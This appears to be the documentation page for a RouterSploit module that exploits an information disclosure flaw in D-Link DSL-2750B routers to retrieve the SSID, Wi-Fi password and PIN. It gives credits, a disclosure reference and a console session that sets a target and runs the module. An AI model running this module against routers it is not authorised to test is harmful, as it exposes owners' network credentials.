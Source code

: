 # D-Link DSL-2750B Info Disclosure

## Description
Module explois information disclosure vulnerability in D-Link DSL-2750B devices. It is possible to retrieve sensitive information such as SSID, Wi-Fi password, PIN code.

## Authors
* Alvaro Folgado # vulnerability discovery
* Jose Rodriguez # vulnerability discovery
* Ivan Sanz # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://seclists.org/fulldisclosure/2015/May/129](http://seclists.org/fulldisclosure/2015/May/129)

## Vulnerable devices
* D-Link DSL-2750B EU_1.01

## Usage
```
rsf > use exploits/dlink/dsl_2750b_info_disclosure
rsf (D-Link DSL-2750B Info Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (D-Link DSL-2750B Info Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DSL-2750B Info Disclosure) > run
[*] Running module...
```
